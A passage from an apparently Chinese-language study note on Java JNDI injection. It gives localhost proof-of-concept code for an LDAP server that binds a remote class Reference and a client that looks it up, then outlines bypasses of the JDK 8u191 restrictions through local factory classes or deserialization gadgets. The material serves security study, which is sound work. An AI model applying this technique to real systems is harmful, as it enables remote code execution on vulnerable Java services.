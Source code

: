     import javax.naming.InitialContext;
    import javax.naming.NamingException;
    import javax.naming.Reference;
    import java.rmi.RemoteException;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: TODO
     * @date 2023/5/13 14:45
     */
    public class JNDILDAPServer {
        public static void main(String[] args) throws NamingException, RemoteException {
            InitialContext initialContext = new InitialContext();
            // 这里需要注意，TestRef 这个类不能有包 package
            Reference reference = new Reference("TestRef.class", "TestRef", "http://localhost:7777/");
            // 注意 url 的写法
            initialContext.rebind("ldap://localhost:10389/cn=test,dc=endlessshw,dc=com", reference);
        }
    }
    ```

2. JNDI + LDAP 服务端：
    ```java
    package com.endlessshw.client;
    
    import javax.naming.InitialContext;
    import javax.naming.NamingException;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: TODO
     * @date 2023/5/13 14:55
     */
    public class JNDILDAPClient {
        public static void main(String[] args) throws NamingException {
            InitialContext initialContext = new InitialContext();
            initialContext.lookup("ldap://localhost:10389/cn=test,dc=endlessshw,dc=com");
        }
    }
    ```

3. 别忘了开启 HTTP 服务。

## 4. JDK 8u191 之后的绕过

1. 思想（两个方向）：

    > 找到一个受害者本地`CLASSPATH`中的类作为恶意的`Reference Factory`工厂类，并利用这个本地的`Factory`类执行命令。
    >
    > 利用`LDAP`直接返回一个恶意的序列化对象，`JNDI`注入依然会对该对象进行反序列化操作，利用反序列化`Gadget`完成命令执行。
    >
    > https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html
